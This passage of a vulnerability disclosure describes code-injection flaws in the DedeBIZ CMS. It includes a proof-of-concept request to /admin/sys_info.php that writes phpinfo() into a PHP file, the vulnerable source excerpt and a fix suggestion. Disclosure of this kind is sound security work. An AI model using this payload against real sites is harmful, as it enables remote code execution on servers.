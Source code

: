 Therefore, the attacker only needs to input id with ```'.``` followed by the codes he wishes to execute and configure the parameters (```typeids```, ```dopost```, ```safecode``` and ```randcode```) to write codes to the file ```/data/password.data.php``` and cause remote code execution.

![2022-07-14_173311.png](https://s2.loli.net/2022/07/14/iuWE4LZtRKhpDmd.png)

![2022-07-14_172602.png](https://s2.loli.net/2022/07/14/Y49ScNrympWjgP8.png)

## bizv6.0 

- Affected product: DedeBIZ V6
- Attack type: Remote
- Affected component: /admin/sys_info.php
- Description: DedeBIZ v6.* was discovered to contain a remote code execution vulnerability in sys_info.php.
- Vendor confirmed or acknowledged: Confirmed
- Fix Information: Not available


### POC

```
GET /admin/sys_info.php?dopost=add&nvarname=test&nvarvalue=phpinfo()&vartype=number HTTP/1.1
Host: www.dedebiz6.com
Cookie:  PHPSESSID=bs4vp003uqilf3pj1al024egs2; DedeUserID=1; DedeUserID__ckMd5=6d2e834b19e2030a; DedeLoginTime=1657701678; DedeLoginTime__ckMd5=34d8cf865664d363
Connection: close
```

### Details

DedeBIZ v6.* backend admin/sys_info.php has the function of adding variables, but the filtering of variables of type 'number' is not strict when writing to the database and php files, resulting in remote code execution.

![2022-07-13_174059.png](https://s2.loli.net/2022/07/13/HknoPKUa5N3xfIX.png)

![2022-07-13_175255.png](https://s2.loli.net/2022/07/13/h8bxa5YfBQO4pi1.png)

```php

while ($row = $dsql->GetArray()) {
    if ($row['type'] == 'number') {
        if ($row['value'] == '') $row['value'] = 0;
        fwrite($fp, "\${$row['varname']} = ".$row['value'].";\r\n");
    } else {
        ...
    }
}
                
```

### Suggestions for fixing

For variables with vartype as 'number', check if it is a number or force it to be a number before writing to database and php files.

# phpcms

# metinfo

